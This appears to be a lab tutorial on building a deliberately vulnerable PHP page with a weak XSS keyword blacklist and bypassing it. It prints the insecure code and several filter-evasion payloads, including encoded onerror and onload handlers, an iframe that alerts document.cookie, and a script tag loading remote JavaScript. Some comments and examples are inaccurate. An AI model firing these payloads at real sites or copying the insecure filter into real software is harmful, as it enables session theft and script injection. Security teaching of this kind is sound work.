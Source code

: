 # Write A Web Application With Insecure XSS Filters
An insecure XSS filter occurs when an application fails to properly validate user input, allowing attackers to inject malicious code into web pages. Some developers use blacklists to block dangerous strings like `<script` or `onload=` but often miss edge cases, leaving the application vulnerable to XSS attacks.

## References
- [OWASP - XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) by OWASP
- [How-To - Disable Browser Security Features](https://www.postexplo.com/forum/security-in-general/terms/610-how-to-disable-browser-security-features) by Resheph on PosteXplo
- [XSS Filter Evasion and WAF Bypassing Tactics](https://n3t-hunt3r.gitbook.io/pentest-book) by n3t_hunt3r
- [Bypassing Signature-Based XSS Filters: Modifying HTML](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-html) by PortSwigger

## Tasks
- Write a simple web application containing multiple input fields that are vulnerable to cross-site scripting
- Apply insecure filtering mechanisms to these input fields, such as a blacklist that attempts to block commonly known dangerous XSS keywords
- Develop a blacklist containing at least 30 dangerous XSS keywords (e.g., `<script>`, `onload=`, `alert(`, etc.) that you plan to use to try and protect the input fields
- Use various XSS techniques, such as HTML encoding, JavaScript obfuscation, and bypassing blacklist filters, to inject malicious JavaScript code into the input fields
- Verify that the injected malicious JavaScript code is executed on the web application's frontend, demonstrating the bypass of the insecure XSS filters

## Practical Approach
1. Create a new PHP file named `vulnerable_xss.php` in the htdocs folder in XAMPP 
2. PHP for vulnerable web application:
   ```
   <?php
   // XSS Blacklist filters
   $blacklist = [
       "<script>", "</script>", "<img>", "<svg>", "onload=", "onerror=",
       "alert(", "prompt(", "confirm(", "javascript:", "document.cookie",
       "window.location", "eval(", "setTimeout(", "setInterval(",
       "innerHTML", "outerHTML", "src=", "href=", "<iframe>", "</iframe>",
       "expression(", "vbscript:", "style=", "onmouseover=", "onfocus=",
       "onblur=", "onclick=", "onkeypress=", "onkeyup=", "onkeydown="
   ];
   
   // Function to check for blacklisted words
   function is_blacklisted($input, $blacklist) {
       // Weak blacklisting: no decoding, no normalization
       foreach ($blacklist as $word) {
           // Case-insensitive match for raw strings
           if (strpos($input, $word) !== false) {
               return true;
           }
       }
       return false;
   }
   
   // Handle form submission
   if ($_SERVER['REQUEST_METHOD'] === 'POST') {
       $user_input = $_POST['user_input'];
       
       // Check if input contains any blacklisted words
       if (is_blacklisted($user_input, $blacklist)) {
           echo "Input rejected: contains blacklisted content.";
       } else {
           // Directly echo input into the page (vulnerable to XSS)
           echo $user_input;
       }
   }
   ?>
   
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Insecure XSS Filter</title>
   </head>
   <body>
       <h1>Vulnerable XSS Web App</h1>
       <form action="" method="POST">
           <label for="user_input">Enter some text:</label><br>
           <input type="text" id="user_input" name="user_input" size="100"><br><br>
           <input type="submit" value="Submit">
       </form>
   </body>
   </html>
   ```
3. Despite the blacklist, the following XSS techniques could bypass the filtering
   - HTML encoding: Some browsers might interpret encoded characters that resemble dangerous inputs. For instance:
     Using `&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;` instead of `<script>`
   - Event Handlers in Other Elements:
     Example: `<img src="x" onerror="alert('XSS')">` might bypass filters if `onerror=` is not blacklisted correctly
   - Obfuscation Techniques:
     Using techniques such as breaking keywords (e.g., `java + script:`) to bypass string-based filters
   To test that the blacklist rejects XSS attempts, try the following payloads
   ```
   <script>alert('XSS')</script>
   <img src="nonexistent.jpg" onerror="alert('XSS')">
   <a href="javascript:alert('XSS')">Click Me</a>
   ```
4. To test the vulnerability, use the following payloads and ensure that the injected JavaScript successfully executes on the frontend (e.g., showing an alert box) and different bypass techniques successfully trigger the XSS
   - SVG element with onload event handler
     ```
     <svg ONLOAD="&#x61;&#x6c;&#x65;&#x72;&#x74;(1)">
     ```
     ![image](https://github.com/user-attachments/assets/4d0326ff-3b2d-455d-8f7e-649674a17fbe)

   - IMG onerror and JavaScript Alert Encode
     ```
      <img SRC=x ONERROR="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
     ```
     ![image](https://github.com/user-attachments/assets/addbf297-5b8a-46fb-ad76-1ff1e18890a7)

   - Basic XSS Test Without Filter Evasion
     ```
     <SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
     ```
     ![image](https://github.com/user-attachments/assets/cc3768ef-2b63-4be5-9c4b-f5f57daae5f5)

   - URL string evasion
     ```
     <A HREF="http://www.google.com./">XSS</A>
     ```
     ![image](https://github.com/user-attachments/assets/b4c7d151-c097-4746-b0b0-e2d91e55041a)

   - Trigger JavaScript execution using formaction
     ```
     <form><button formaction=JAVASCRIPT&colon;ALERT(1)>CLICKME
     ```
     ![image](https://github.com/user-attachments/assets/38dace16-5342-41c3-887d-03e5bbaf30f2)

   - Iframe event based mayhem
     ```
     <IFRAME SRC=# ONMOUSEOVER="ALERT(DOCUMENT.COOKIE)"></IFRAME>
     ```
     ![image](https://github.com/user-attachments/assets/57778a91-0fd0-4c16-a9ff-c2af05156e60) 

